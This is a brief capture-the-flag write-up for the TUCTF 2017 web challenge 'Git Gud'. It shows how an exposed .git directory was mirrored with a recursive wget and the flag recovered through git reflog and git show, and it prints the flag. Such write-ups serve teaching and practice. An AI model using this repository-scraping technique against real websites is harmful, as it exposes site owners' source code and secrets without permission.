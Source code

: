```yaml
---
layout: post
title: "Solution to TUCTF 2017 Git Gud"
author: capitol
category: ctf
---
```

![eyes](/images/summer-eyes.jpg)

##### name:
Git Gud

##### category:
web

##### points:
100

#### Writeup

Problem was a single web page with a Git Gud meme. A request to .git showed that the .git repository was included in the deployment. And after we had downloaded the repository it was easy to find the flag in the git reflog.

```bash
wget -drc http://gitgud.tuctf.com/.git/
git reflog
git show 08cd273
```

flag was: TUCTF{D0nt_Us3_G1t_0n_Web_S3rv3r}
